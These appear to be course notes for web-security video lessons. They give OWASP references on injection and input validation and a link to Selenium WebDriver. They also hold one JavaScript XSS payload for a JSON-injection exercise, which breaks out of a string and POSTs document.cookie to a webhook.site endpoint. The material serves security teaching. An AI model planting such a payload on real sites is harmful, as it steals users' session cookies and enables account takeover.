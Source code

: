 # Video 7.2

* [[OWASP] A03:2021 - Injection](https://owasp.org/Top10/A03_2021-Injection)
* [[OWASP] WSTG: Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

# Video 7.4

* [Selenium WebDriver](https://www.npmjs.com/package/selenium-webdriver)

* Payload for XSS on JSON injection excercise.

```js
//replace with your own endpoint
var payload = 'Neat site"});fetch("https://webhook.site/4fc9cc8e-c8cc-XXXX-a385-607ef4351cd2",{method: "POST", body:document.cookie});({ time: "2022-02-29", who: "Friend", body: "Neat site';
```